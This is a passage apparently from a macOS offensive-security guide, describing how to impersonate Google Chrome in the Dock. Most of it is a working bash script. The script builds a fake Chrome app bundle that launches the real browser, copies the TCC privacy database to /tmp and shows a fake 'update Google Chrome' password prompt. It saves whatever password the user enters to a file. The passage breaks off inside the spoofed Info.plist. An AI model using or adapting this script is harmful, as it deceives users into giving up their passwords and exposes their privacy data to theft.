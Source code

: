 Using some **social engineering** you could **impersonate for example Google Chrome** inside the dock and actually execute your own script:

{{#tabs}}
{{#tab name="Chrome Impersonation"}}
Some suggestions:

- Check in the Dock if there is a Chrome, and in that case **remove** that entry and **add** the **fake** **Chrome entry in the same position** in the Dock array.&#x20;

```bash
#!/bin/sh

# THIS REQUIRES GOOGLE CHROME TO BE INSTALLED (TO COPY THE ICON)
# If you want to removed granted TCC permissions: > delete from access where client LIKE '%Chrome%';

rm -rf /tmp/Google\ Chrome.app/ 2>/dev/null

# Create App structure
mkdir -p /tmp/Google\ Chrome.app/Contents/MacOS
mkdir -p /tmp/Google\ Chrome.app/Contents/Resources

# Payload to execute
cat > /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c <<EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    char *cmd = "open /Applications/Google\\\\ Chrome.app & "
                "sleep 2; "
                "osascript -e 'tell application \"Finder\"' -e 'set homeFolder to path to home folder as string' -e 'set sourceFile to POSIX file \"/Library/Application Support/com.apple.TCC/TCC.db\" as alias' -e 'set targetFolder to POSIX file \"/tmp\" as alias' -e 'duplicate file sourceFile to targetFolder with replacing' -e 'end tell'; "
                "PASSWORD=\$(osascript -e 'Tell application \"Finder\"' -e 'Activate' -e 'set userPassword to text returned of (display dialog \"Enter your password to update Google Chrome:\" default answer \"\" with hidden answer buttons {\"OK\"} default button 1 with icon file \"Applications:Google Chrome.app:Contents:Resources:app.icns\")' -e 'end tell' -e 'return userPassword'); "
                "echo \$PASSWORD > /tmp/passwd.txt";
    system(cmd);
    return 0;
}
EOF

gcc /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c -o /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome
rm -rf /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome.c

chmod +x /tmp/Google\ Chrome.app/Contents/MacOS/Google\ Chrome

# Info.plist
cat << EOF > /tmp/Google\ Chrome.app/Contents/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
"http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>CFBundleExecutable</key>
    <string>Google Chrome</string>
    <key>CFBundleIdentifier</key>
    <string>com.google.Chrome</string>
    <key>CFBundleName</key>
    <string>Google Chrome</string>
```